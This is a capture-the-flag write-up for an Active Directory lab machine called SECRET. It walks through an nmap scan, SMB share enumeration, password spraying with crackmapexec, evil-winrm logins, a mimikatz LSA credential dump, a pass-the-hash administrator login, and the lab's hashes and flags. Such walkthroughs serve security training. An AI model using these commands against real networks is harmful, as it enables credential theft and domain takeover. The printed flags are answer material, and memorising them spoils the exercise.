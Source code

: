 # SECRET / Active Directory

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/4d38101776224c698b56def9fb422cce.png)

## NMAP SCAN

```text
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2021-03-13 15:25:57Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: SECRET.org0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  syn-ack ttl 127 Windows Server 2019 Standard 17763 microsoft-ds (workgroup: SECRET)
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: SECRET.org0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SECRET
|   NetBIOS_Domain_Name: SECRET
|   NetBIOS_Computer_Name: SECRET-DC
|   DNS_Domain_Name: SECRET.org
|   DNS_Computer_Name: SECRET-DC.SECRET.org
|   DNS_Tree_Name: SECRET.org
|   Product_Version: 10.0.17763
|_  System_Time: 2021-03-13T15:26:51+00:00
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49700/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

## SMB ENUMERATION

```text
smbclient -L \\\\172.31.1.4\\ -N
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/617f2327f23c4c26a36a628dede669cd.png)

* SHARE OFFICE\_SHARE

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/9c3444ef61ce443fb5cf4114b3c1917d.png)

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/21173fd843954668ab5531c6e674bcda%20%282%29.png)

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/af46b71057454a84a680e4201065340d.png)

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/340129f426fd4042ae447fcaccb71f0a.png)

```text
SecretOrg!
```

### USERS ENUMERATION

```text
Ben Dover
Joe Cakes
Kurby Curtis
Lee Frank
```

Combined the Users found using this script

```python
#!/usr/bin/env python3

file_name = "names.txt"

with open(file_name, "r") as f:
    lines = f.readlines()
    for line in lines:
        line = line.strip("\n") # remove the unneccesary new lines (\n)
        
        name = line.split(" ") # split the names by space
        # print the usernames in 3 different formats
        print(name[0] + name[1])
        print(name[0][:1] + name[1])
        print(name[0] + name[1][:1])
```

```text
crackmapexec smb 172.31.1.4 -u ./combined.txt -p 'SecretOrg!' --shares
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/e5e9ed66d20745d7a8cb3ff0834d1c34.png)

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/5cf66c75bd364134a1523999f88b5558.png)

### LET's try to login with evil-winrm

```text
jcakes:SecretOrg!
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/33a241b6f1364fc9a54450890d8e9192.png)

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/29273abe119d447bac73c974514bdb88.png)

## WINPEAS FINDINGS

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/cd4138e759c54f87b5349161572f90df.png)

```text
vF4$x9#z:-eT~Fy
```

## USE CREDS FOUND

```text
administrator
bdover
kcurtis
lfrank

```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/250543aefe574dc2948a9e63fae85e4b.png)

```text
bdover:vF4$x9#z:-eT~Fy
```

### LOGIN WITH BDOVER CREDS

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/5c02bc9b47114053b3cf4dc1d4c0cb28.png)

## GETTIN ADMIN CREDS

* Upload mimikatz.exe and run this command

  ```text
  .\mimikatz.exe "privilege::debug" "lsadump::lsa /patch" "exit"
  ```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/03ef921b9af54213ba0cfb6ef0ea5eca.png)

```text
administrator:4d801e8c043133366056b5cd6fdcc2c7
krbtgt:273ba21a421f03e6c4345ec16642bd1d
```

## LOGIN WITH ADMINISTRATOR HASH

```text
evil-winrm -i 172.31.1.4 -u administrator -H 4d801e8c043133366056b5cd6fdcc2c7
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/956c286a61d740568e66cde2485290cd.png)

## FLAGS

### USER

```text
f32dae1bca59aea4a591f970f7aa4d2c
```

### ROOT

```text
7b50e84e903c4cfad6498977632fd763
```



